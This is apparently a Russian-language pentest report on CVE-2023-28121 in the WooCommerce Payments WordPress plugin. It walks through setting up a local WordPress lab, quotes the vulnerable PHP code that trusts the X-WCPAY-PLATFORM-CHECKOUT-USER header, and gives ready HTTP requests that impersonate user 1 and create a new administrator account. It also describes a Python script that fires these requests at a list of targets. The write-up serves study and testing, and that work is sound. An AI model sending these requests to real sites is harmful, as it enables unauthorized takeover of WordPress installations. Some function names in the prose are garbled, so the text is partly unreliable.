



# Отчет CVE-2023-28121

процесс создания собственной пентест-лаборатории для WordPress на:

- Ubuntu 20.04
WordPress в Ubuntu 20.04

Для работы WordPress необходимы:

- Apache
- База данных (MySQL / Mariadb)
- PHP

### Apache
Запустим службу HTTP с помощью Apache, используя учетную запись с root-правами. Для этого выполним следующую команду в терминале:

```apt install apache2```

### Установка MySQL

Для работы WordPress понадобиться сервер базы данных, в качестве которого мы собираемся выбрать MariaDB.

```apt install mariadb-server mariadb-client```

### Установить php

Завершаем этап подготовки установки php php-MySQL, для чего нужно выполнить следующую команду.

```apt install php php-mysql```

Создать базу данных для WordPress

Вводим команду для создания базы данных для WP:


```
mysql -u root -p
CREATE DATABASE wordpress;
CREATE USER 'wp_user'@'localhost' IDENTIFIED BY 'password';
GRANT ALL ON wordpress.* TO 'wp_user'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
exit
```

### Установка и настройка WordPress

Теперь пришло время загрузить и установить WordPress на нашем локальном хосте. С помощью команды wget мы получаем архив с установщиком wordpress и извлекаем его в каталог /var/www/html.

```
cd /var/www/html
wget http://www.wordpress.org/latest.tar.gz
tar –xvf latest.tar.gz
```
Данная команда изменит владельца каталога «wordpress» и даст разрешение на загрузку файлов.

```
chown -R www-data:www-data wordpress/
chmod -R 755  wordpress/
mkdir wordpress/wp-content/uploads
chown -R  www-data:www-data wordpress/wp-content/uploads
```

Теперь чтобы начать процесс установки необходимо ввести в браузере адрес сайта, который в нашем случае расположен на локальном хосте.

```
http://localhost/wordpress/
```
* Выбираем язык 
* ```Let's go!```

Чтобы WordPress правильно установился и работал необходимо ввести данные для подключения к созданной ранее базе данных.

```
datadase name : wordpress
username : wp_user
password :password
database host : localhost
table prefix : wp_
```
Продолжаем
```submit```

Далее необходимо ввести данные нашего веб-сайта.

Продолжаем
```install wordpress```

Стоит отметить, что запрашиваемые данные логина и пароля:


- Перед установкой WP – относятся к информации о базе данных.
- После установки WP – относятся к админке WordPress.

После этого откроется страница входа в админку WordPress.

Откройте файл ```wp-config.php``` в каталоге wordpress и вставьте в него следующие строки, чтобы получить доступ к странице веб-сайта (/var/www/html/wordpress/).



Вот и все готово и наш WordPress для пентеста готов к работе.

{WOOCOM PAYMENT INSTALL}

## Установка плагина WooCommerce Payments 4.8.0 - 5.6.1

Скачиваем архив - https://wordpress.org/plugins/woocommerce-payments/advanced/

В конце страницы выбираем версию которую нас интересует (4.8.0 - 5.6.1)

распаковываем в ```/var/www/html/wordpress/wp-content/plugins/ ```


* Wordpress посоветует установить WooCommerce - устанавливаем

Активируем плагины в у нас должно получиться следующее: 


# Описанаие уязвимости 

в марте 2023 года появилась рекомендация по безопасности, опубликованная Wordfence, о критическом «обходе аутентификации и повышении привилегий» (также известном как CVE-2023-28121), затрагивающем плагин «WooCommerce Payments», который, согласно данным, имеет более 600 000 активных установок. WordPress.

Таким образом, сравнивая уязвимую версию 5.6.1 (все нижеуказанные также уязвимы) и исправленную версию 5.6.2


1. Разработчики удалили вызов Platform_Checkout_Session::init() из woocommerce-pays.php:



2. Они полностью удалили файл ```/includes/platform-checkout/class-platform-checkout-session.php```, внутри которого есть объявление ```Platform_Checkout_Session::init()```.

Поскольку все сводится к функции init(), давайте быстро в нее углубимся. Вот полный исходный код, содержащий уязвимость:


```
<?php
/**
 * Class WC_Payments_Session.
 *
 * @package WooCommerce\Payments
 */

namespace WCPay\Platform_Checkout;

/**
 * Class responsible for handling platform checkout sessions.
 * This class should be loaded as soon as possible so the correct session is loaded.
 * So don't load it in the WC_Payments::init() function.
 */
class Platform_Checkout_Session {

  const PLATFORM_CHECKOUT_SESSION_COOKIE_NAME = 'platform_checkout_session';

  /**
   * Init the hooks.
   *
   * @return void
   */
  public static function init() {
    add_filter( 'determine_current_user', [ __CLASS__, 'determine_current_user_for_platform_checkout' ] ); // <-- !!!!!
    add_filter( 'woocommerce_cookie', [ __CLASS__, 'determine_session_cookie_for_platform_checkout' ] );
  }

  /**
   * Sets the current user as the user sent via the api from WooPay if present.
   *
   * @param \WP_User|null|int $user user to be used during the request.
   *
   * @return \WP_User|null|int
   */
 <--- !!!!!
  public static function determine_current_user_for_platform_checkout( $user )// {
    if ( $user ) {
      return $user;
    }

    if ( ! isset( $_SERVER['HTTP_X_WCPAY_PLATFORM_CHECKOUT_USER'] ) || ! is_numeric( $_SERVER['HTTP_X_WCPAY_PLATFORM_CHECKOUT_USER'] ) ) {
      return null;
    }

    return (int) $_SERVER['HTTP_X_WCPAY_PLATFORM_CHECKOUT_USER'];
  }
// <--- !!!!!
  /**
   * Tells WC to use platform checkout session cookie if the header is present.
   *
   * @param string $cookie_hash Default cookie hash.
   *
   * @return string
   */
  public static function determine_session_cookie_for_platform_checkout( $cookie_hash ) {
    if ( isset( $_SERVER['HTTP_X_WCPAY_PLATFORM_CHECKOUT_USER'] ) && 0 === (int) $_SERVER['HTTP_X_WCPAY_PLATFORM_CHECKOUT_USER'] ) {
      return self::PLATFORM_CHECKOUT_SESSION_COOKIE_NAME;
    }

    return $cookie_hash;
  }
}

```

Функция init() добавляет два фильтра WordPress, наиболее интересным из которых является define_current_user (строка 25). Если посмотреть на этот крючок в официальной документации WordPress, становится совершенно ясно, что в конечном итоге он делает то, что означает его название: определяет текущего пользователя.

Вся (уязвимая) магия происходит в функции define_current_user_for_platform_checkout() (строки с 36 по 46), где плагин проверяет наличие заголовка запроса X-WCPAY-PLATFORM-CHECKOUT-USER и, если он присутствует, просто возвращает заголовок ценить. Поскольку возвращаемое значение представляет «определенного» пользователя, теперь мы можем обмануть WordPress, заставив его думать, что мы правильно аутентифицированы как данный userId.


# Триггер уязвимости 

Таким образом, чтобы активировать часть обхода аутентификации, вам просто нужно установить заголовок запроса X-WCPAY-PLATFORM-CHECKOUT-USER и указать в нем идентификатор пользователя:

```
GET / HTTP/1.1
Host: 192.168.178.11
Upgrade-Insecure-Requests: 1
Connection: close
X-WCPAY-PLATFORM-CHECKOUT-USER: 1
```

При подключении отладчика и запуске вышеуказанного запроса вы можете заметить, что наша первоначальная теория верна и что функция define_current_user_for_platform_checkout() просто вернет userId из запроса без какой-либо дальнейшей проверки:


# Эксплуатация
Поскольку мы можем выдавать себя за администраторов, довольно легко скомпрометировать весь экземпляр WordPress. Самый простой способ — это использовать API-интерфейс WordPress /wp-json/wp/v2/users, который позволяет добавлять новых пользователей.

Поэтому следующий запрос добавит нового пользователя с именем «взломанный» с ролью «администратор» по умолчанию в уязвимый экземпляр WordPress, выдавая себя за пользователя с идентификатором пользователя «1», который является первым добавленным пользователем (обычно администратором). в любой экземпляр WordPress:

* ```POST /wp-json/wp/v2/users HTTP/1.1```
(оригинал) на моментнаписания отчета требуется изменить запрос -> (изменения)
```POST ?rest_route=/wp/v2/users HTTP/1.1```
```
POST ?rest_route=/wp/v2/users HTTP/1.1
Host: 192.168.178.11
Upgrade-Insecure-Requests: 1
Connection: close
Content-Type: application/json
X-WCPAY-PLATFORM-CHECKOUT-USER: 1
Content-Length: 123
{
    "username": "hacked",
    "email":"asdf@hfdsa.com",
    "password":"h3ll0w0rld",
    "roles": ["administrator"]
}
```
Успешный ли эксплойт можно определить по коду ответа HTTP. Если это 201, эксплойт прошел успешно и вернет объект пользователя вновь созданного пользователя (Пример будет указан в скриншотах работы программы).

# Программа 
- ```woo-request.py```
- ```targets.txt```

В файле содержаться адреса доменов для тестов 

```
http://192.168.117.128/worpress/
...
```

Запуск скрипта требует установленного Python 3.8 - 3.11

 ```python woo-request.py```

- (```!] target: syntax not supported or server not exist``` - ошибка при которой либо сервер из списка недоступен, либо неправильно введен домен)

при успешной эксплуатации код должен быть 201 и ответ сервера предоставляет нам информацию о новом пользователе с правами администратора:


Если просмотреть пользователей то мы увидем новый аккаунт с правами Администратора:


Заходим на новый аккаунт:



И нам доступен весь функционал Администратора 


